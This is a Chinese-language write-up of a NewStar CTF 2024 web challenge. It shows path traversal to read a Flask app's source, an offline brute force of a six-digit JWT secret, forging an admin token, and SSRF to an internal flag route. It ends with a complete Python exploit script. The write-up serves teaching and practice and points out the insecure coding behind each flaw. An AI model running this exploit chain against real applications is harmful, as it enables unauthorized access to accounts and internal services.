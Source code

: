 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 这「照片」是你吗

查看网页源码：

```html
<!-- 图标能够正常显示耶! -->
<!-- 但是我好像没有看到 Niginx 或者 Apache 之类的东西 -->
<!-- 说明服务器脚本能够处理静态文件捏 -->
<!-- 那源码是不是可以用某些办法拿到呢! -->
```

很明显的提示，能够获得静态文件，但是没有用常见的反代服务来区别静态文件和服务型路由。

服务端处理文件和路由的逻辑很有可能会有漏洞。

简单的测试就能知道是路径穿越 + 任意文件读。

查看 Response Header，能够认出来是 Flask app，常用的 Flask 主程序名为为 `app.py`.

<Container type="info">

路径穿越常用 `../`，意为当前文件夹的上一层。
</Container>

本题将静态文件存储在了 `./static` 中，主程序在 `static` 外，那么使用 `GET /../app.py` 就可以拿到源码了。

::: tip
若直接在浏览器中访问带 `../` 的路径，会先被浏览器按照网址路径规则解析一遍 `../`，最终发出的并不是含这个字符串的路径，因此需要用发包软件发送过去。
:::

![发包获取源代码](/assets/images/wp/2024/week3/zhaopian_1.png)

<Container type="quote">

本题的漏洞代码是 `send_file("./static/" + file)`.

与 SQL 注入一样，直接拼接用户可控制输入的字符串是大忌！
</Container>

很轻松的，我们获得了主程序的源代码。

审计源码，可以知道我们要用 `admin` 用户登录来进入面板。两种方法：获取密码或者伪造 `token`.

首先来看密码的长度：

```python
base_key = str(uuid.uuid4()).split("-")
admin_pass = "".join([ _ for _ in base_key])
```

`admin` 的密码长度是 32 个字符，而整个程序有登录次数限制，因此无法爆破密码来登录。

而伪造 `token` 则需要 `secret_key`，查看生成逻辑：

```python
secret_key = get_random_number_string(6)
```

6 位数字字符串，可以在数秒内完成爆破。

```python
users = {
    'admin': admin_pass,
    'amiya': "114514"
}
```

通过本段代码我们可以知道一个有效账户 `amiya`，密码 `114514`，通过发包登录，我们可以获得一个有效的 `token`，据此能在本地认证签名 `secret_key` 的有效性（因为目标主机有认证次数限制）。

<Container type="quote">

用明文存密码也是大忌！安全的做法是存储哈希值，并且加入一定的盐值（Salt）。
</Container>

爆破出 `secret_key`，然后查看登录后的逻辑：

前端请求 `/execute` 指定 `api_address`，而 `api_address` 可控且没有校验，存在 SSRF 漏洞。

定位到源代码开头：

```python
from flag import get_random_number_string
```

这是出题人故意漏的信息，将函数写在了 flag 模块并 import，提示查看 `flag.py`

```python
@get_flag.route("/fl4g")
# 如何触发它呢?
def flag():
    return FLAG
```

::: tip
Python 程序可以 import 同一目录下的 `.py` 文件而不必创建 `__init__.py` 等标记模块的文件。因此这里同级目录下有文件名为 `flag.py` 的程序，模块名为 `flag`.
:::

我们的操作很明确了：利用 `/execute` 路由的 SSRF 漏洞让服务器自己访问 `http://localhost:5001/fl4g`，即访问 `/execute?api_address=http://localhost:5001/fl4g`.

EXP 如下：

```python
import time
import requests
import jwt
import sys

if len(sys.argv) < 2:
    print(f"Usage: python {sys.argv[0]} <url>")
    sys.exit(1)

url = sys.argv[-1]


def get_number_string(number,length):
    return str(number).zfill(length)

print("[+] Exploit for newstar-zhezhaopianshinima")
print("[+] Getting a valid token from the server")

LENGTH = 6
req = requests.post(url+"/login", data={"username":"amiya","password":"114514"})
token = req.cookies.get("token")

print(f"[+] Got token: {token}")
print("[+] Brute forcing the secret key")
for i in range(1000000):
    secret_key = get_number_string(i,LENGTH)
    try:
        decoded = jwt.decode(token, secret_key, algorithms=["HS256"])
        break
    except jwt.exceptions.InvalidSignatureError:
        continue

print(f"[+] Found secret key: {secret_key}")
fake_token = jwt.encode({'user': 'admin', 'exp': int(time.time()) + 600}, secret_key)

print(f"[+] Generated a fake token: {fake_token}")

print("[+] Getting the flag")
req = requests.get(url+"/execute?api_address=http://localhost:5001/fl4g", cookies={"token":fake_token})

print(f"[+] Flag: {req.text}")
```
